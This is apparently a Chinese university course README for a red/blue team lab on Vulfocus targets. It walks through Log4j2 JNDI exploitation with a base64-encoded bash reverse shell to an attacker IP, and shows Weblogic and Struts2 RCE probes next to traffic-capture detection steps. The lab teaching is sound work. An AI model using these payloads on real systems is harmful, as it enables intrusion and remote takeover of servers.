

<div align="center">

<h1 align="center">
    CUC网络安全攻防实践（Network-security-attack-and-defense-practice）
    <h4>
        2023年CUC网络安全攻防实践仓库
    </h4>
</h1>
</div>


## 📜仓库说明

本仓库基于[基础团队实践训练](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html#_12)跟练复现完成的 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 。其中以红蓝队角色完成相应的网络攻防场景在线，其中主要是基于Vulfocus平台提供的靶场环境进行实验

以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色。

- 红队：需完成漏洞存在性验证和漏洞利用。

- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。

- 蓝队威胁处置：漏洞利用的缓解和漏洞修复（源代码级别和二进制级别两种）。

上述能力的基本评分原则参考“道术器”原则：最基础要求是能够跟练并复现 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 中演示实验使用到的工具；进阶标准是能够使用课程视频中 **未使用** 的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置。

### 分支说明

- `main`分支存放项目最终实践报告
- 其他各分支代表各组员个人实践报告、日志记录和代码文件

## 📝实践达成指标

- [x] 完成基础环境配置
- [x] 红队实现对环境漏洞的挖掘，并利用漏洞实现攻击
- [x] 蓝队对模拟场景下的出现的攻击进行检测和识别处理
- [x] 蓝队完成对漏洞的缓解或修复
- [x] 实现自动化脚本编写和检测工具

## 📒项目日志

项目实践日志请访问👉[记录日志](https://www.baichuanweb.cn/article/example-68)

## 🚀实践过程

### 1 环境搭建

> 万事开头难，只要肯攀登

**1.配置虚拟机，调节网络环境**

本次实践中，虚拟机配置两张网卡：`Host-only`网卡和`网络地址转换(NAT)`



当然要完成红蓝攻防对抗，需要准备攻击者主机和靶机，直接使用多重加载镜像，能够有效简化整个实验过程：


同时为了使得挂载的两个虚拟机的ip地址不同，可以自行手动更新地址：


**2.从仓库中拉取到本机的虚拟机系统当中**：

在模拟红蓝网络攻防实践的整个过程之前，需要确保本地环境部署完毕，当然在黄药师录制好的[视频指导](https://www.bilibili.com/video/BV1p3411x7da/?p=22&spm_id_from=pageDriver&vd_source=61a1cf010feeebc60643481f16fc695e)下可以很快的部署完能够省略很多比较繁琐的操作：

```shell
git clone https://github.com/c4pr1c3/ctf-games.git
```

通过使用Docker Compose来构造docker环境，其中git下来的仓库老师已经配置好对应的.yml文件，直接执行即可构建对应的环境：

```shell
sudo apt update && sudo apt install -y docker.io docker-compose jq
```

构建好后，直接运行老师给出的bash脚本即可在本地的80端口开启容器：


此处在运行`start.sh`脚本时，需要在root用户权限下执行，当然，也可以将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令：

```shell
sudo usermod -a -G docker ${USER}
```

当然以上步骤都需要确保**网络能够正常进行访问**，如果访问或者拉取镜像时出现网络限制或者超时，可以更换docker镜像源和kali镜像源：

- **更换kali国内镜像源**：

  - 使用下列命令可以直接编辑`sources.list`

    ```css
    sudo vim /etc/apt/sources.list
    ```

  - 换源地址如下：

    ```shell
    # 中科大
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
     
    # 阿里云
    deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
     
    # 清华大学
    deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    ```

  - 保存成功后命令行输入 `sudo apt update`更新软件源

    ```shell
    sudo apt update
    ```

- **更换docker源：**

  - 创建或修改 /etc/docker/daemon.json 文件，修改：

    ```shell
    cd /etc/docker
    vim daemon.json
    ```

    加入如下配置：

    ```shell
    {
        "registry-mirrors" : [
        "https://registry.docker-cn.com",
        "http://hub-mirror.c.163.com",
        "https://docker.mirrors.ustc.edu.cn",
        "https://cr.console.aliyun.com",
        "https://mirror.ccs.tencentyun.com"
      ]
    }
    ```

    重启docker服务使配置生效：

    ```shell
    systemctl daemon-reload
    systemctl restart docker.service
    ```

    查看配置是否成功：

    ```shell
    docker info
    ```

    

**3.测试部署本地的Vulfocus**

进入部署好的地址，能够看到对应的镜像列表等信息：


在镜像列表同步上游镜像，能够得到Vulfocus已经提供的镜像：


尝试下载镜像，并在容器中启动环境进行一定测试：


**4.如何去自定义一个场景拓扑镜像**、

我们在搭建整个网络攻防的模拟环境的过程中，需要去构建跨网段渗透的场景镜像，而由于官网（[在线平台](https://vulfocus.cn/#/scene/list)）已经不再提供下载和资源镜像分享，因此需要自己去设计构建相应的拓扑场景和镜像：


我们直接手动设计场景，首先，要达成跨网段和识别，进入办公区和核心区的任务，简单模拟其环境供使用这一漏洞攻防环境，我们需要准备两张网卡实现二层网络的搭建：


攻击者主机通过暴露在“外网”的靶机漏洞从而渗透攻击DMZ区域，并将其作为跳板访问，依次利用漏洞访问到核心网内的靶机：


在容器中启动场景，查看相应的镜像信息：


完成上述步骤即构建了一个双层网段的渗透测试环境的模拟。

**5.配置免密登录**

- __操作过程：__ 

  - 打开 gitbash，输入操作代码：

  ```bash
  $ ssh-keygen -t rsa 
  # 提示输入东西时，连续按3次回车即可，在~/.ssh目录下生成了id_rsa和id_rsa.pub两个文件，后者上传至目标服务器。
  # 但是因为已经生成过密钥文件了，这里就跳过这一步，权当是复习一遍之前的内容。
  $ ssh-copy-id -i id_rsa.pub server_user@ipAddr
  #server_user是服务器用户名，ipAddr是对应地址。
  ```

  

  


     - 在虚拟机上进行输入操作代码：
     ```bash
     $ vim /etc/ssh/sshd_config
     #找到/etc/ssh/sshd_config这个文件，取消以下几行注释。
     #PubkeyAuthentication yes
     #AuthorizedKeysFile .ssh/authorized_keys
     保存并退出vim：:x
    
     $ sudo service ssh restart
     #重启服务
     ```
    
     


     - 在 gitbash 中输入操作代码：
     ```bash
     $ ssh username@ip
     ```
     即可免密登录虚拟机的 Linux 系统。
    

 

在宿主机上实现远程免密登录确实会让实验操作更加便捷。

### 2 单个独立漏洞验证和利用

> 以 **log4j2 CVE-2021-44228** 为例

#### 检测漏洞存在性

在Vulfocus启动漏洞环境，镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动：


浏览器访问该地址`192.168.56.109:11636`

实验环境访问端口为11636，故查看到容器名称为`optimistic_blackwell`

进入容器

```bash
docker exec -it optimistic_blackwell bash
```


查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

```bash
# docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```


- 反编译

使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar


源码中有名为`Log4j2RceApplic`的类，其中正是违反了 "KISS" 原则，验证了该漏洞存在

#### 验证漏洞可利用性

- 使用 `PoC` 手动测试

>"PoC" 是 "Proof of Concept" 的缩写，意为"概念验证"。在安全领域，PoC 手动测试通常用于验证潜在的漏洞或安全问题。测试人员会尝试利用已知的漏洞或攻击技术来测试系统的安全性，并验证是否存在潜在的风险。这种测试方法可以帮助发现和修复系统中的安全漏洞，以提高系统的安全性。

访问http://dnslog.cn/获取专属随机子域名`k5o9u7.dnslog.cn`


浏览器访问`192.168.56.109:11636/hello?payload=111`地址，使用Burp Suite进行抓包，修改GET请求的payload参数

```
# ldap://dnslog获取的随机域名/随便填
payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}
```

同时对payload字段进行**编码**，否则直接访问会导致400错误


在DNSLog网站成功接收到解析记录


#### 漏洞利用

攻击者主机attacker上下载[`JNDIExploit`工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

```bash
https://github.com/bkfish/Apache-Log4j-Learning.git
```

解压

```
unzip JNDIExploit.v1.2.zip
```

攻击者主机attacker启动777端口，等待受害者主机victim反弹回连getshell

```bash
nc -l -p 7777
```


应用工具JNDI-Injection-Exploit搭建服务，格式：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```

这里的命令是想要靶机运行的命令，-A后放的是发出攻击的电脑的ip，也是存放-C后“命令”的ip地址。

构造反弹shell的`payload`

```bash
bash -i >& /dev/tcp/192.168.56.105/7777 0>&1
```

将其进行**base64加密**

```tex
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=
```

执行JNDI-Injection-Exploit

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.56.105
```


使用Burp Suite进行抓包，修改`GET 192.168.56.107:28490/hello?payload=111`的payload参数为上图框选的内容并进行编码

```
${jndi:rmi://192.168.56.105:1099/5ekovi}
```


发送后，即可发现攻击者主机的监听窗口反弹shell，查看 flag


查看flag

```bash
ls /temp
```


```bash
flag-{bmh20c56a41-fc29-44f1-9da4-0e3b7bbfb8ff}
```

在管理界面提交该flag通过


### 3 场景化漏洞攻击

> 以【**跨网段渗透**(常见的`dmz`)】为例


### 4 漏洞威胁监测和缓解修复

#### 异常流量检测与防护

使用 Docker 的网络命名空间和网络抓包工具来捕获和分析流量。

- 获取容器的 `PID`（进程ID）

```bash
# 查看容器运行情况
docker ps

docker inspect -f '{{.State.Pid}}' <container_name>
# 请将 <container_name> 替换为要监视流量的容器的名称
```


- 使用 `nsenter` 命令进入容器的网络命名空间

```bash
nsenter -t <container_pid> -n
# 将 <container_pid> 替换为上一步中获取到的容器 PID
```

- 使用网络抓包工具（如 `tcpdump` 或 `tshark`）来捕获和分析流量

```bash
tcpdump -i eth0 -w captured_traffic.pcap
```

这将在容器的 `eth0` 网络接口上捕获流量，并将结果保存到 `captured_traffic.pcap` 文件中


在`captured_traffic.pcap` 文件中可以查看到所有访问到容器的流量


可以查看到疑似远程代码执行的攻击流量

#### 自动化漏洞验证

> 针对**Weblogic CVE-2019-2725**的自动化验证

`CVE-2019-2725`是一个`Oracle weblogic`反序列化远程命令执行漏洞，这个漏洞依旧是根据`weblogic`的`xmldecoder`反序列化漏洞，通过针对Oracle官网历年来的补丁构造payload来绕过。

**影响版本** ：
`weblogic 10.x`
`weblogic 12.1.3`

在场景中访问中层网络靶机（已存放**Weblogic CVE-2019-2725**漏洞）


根据其漏洞特性构造[**POC代码**：](./src/poc.py)

检测函数`checking(url)`中，脚本会发送GET请求到目标URL的`/_async/AsyncResponseService`路径，并检查响应状态码。如果状态码为200，表示目标存在CVE-2019-2725漏洞；否则，表示目标不受该漏洞影响。

```python
def checking(url):
  try:
    response = requests.get(url+filename)
    if response.status_code == 200:
      print('[+] {0} 存在CVE-2019-2725 Oracle weblogic 反序列化远程命令执行漏洞'.format(url))
    else:
      print('[-] {0} 不存在CVE-2019-2725 Oracle weblogic 反序列化远程命令执行漏洞'.format(url))
  except Exception as e:
    print("[-] {0} 连接失败".format(url))
    exit()
if options.FILE and os.path.exists(options.FILE):
  with open(options.FILE) as f:
    urls = f.readlines()
    #print(urls)
    for url in urls:
      url = str(url).replace('\n','').replace('\r','').strip()
      checking(url)
elif options.FILE and not os.path.exists(options.FILE):
  print('[-] {0} 文件不存在'.format(options.FILE))
  exit()
else:
  #上传链接
  url = options.URL+':'+options.PORT
  checking(url)
```

**执行脚本**：

```bash
python3 poc.py -f IP_test.txt -p
```


检测出存在`CVE-2019-2725`漏洞

#### 智能化漏洞攻击脚本

##### struts2-cve-2020-17530脚本构造

根据分析，Apache Struts 2是一个用于开发Java EE网络应用程序的开源网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。

如果开发人员使用了 `%{…}` 语法，那么攻击者可以通过构造恶意的 `OGNL` 表达式，引发 `OGNL` 表达式二次解析，最终造成远程代码执行的影响。

因此这是一个远程代码执行漏洞，所以可以尝试构造对应的`OGNL`的表达式脚本来尝试攻击。

在场景中，针对暴露的第二个靶机端口我们尝试进行攻击：


根据前文中我们已经构造的payload：

```shell
http://192.168.1.110:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```

尝试在代码中构造这一表达式：


运行后，通过burp抓包能够得到：


Getshell脚本的反弹命令需要进行进行编码转换，所以反弹shell可以使用https://www.ddosi.org/shell/ 在线工具平台转码：


对开放端口运行脚本，成功getshell：


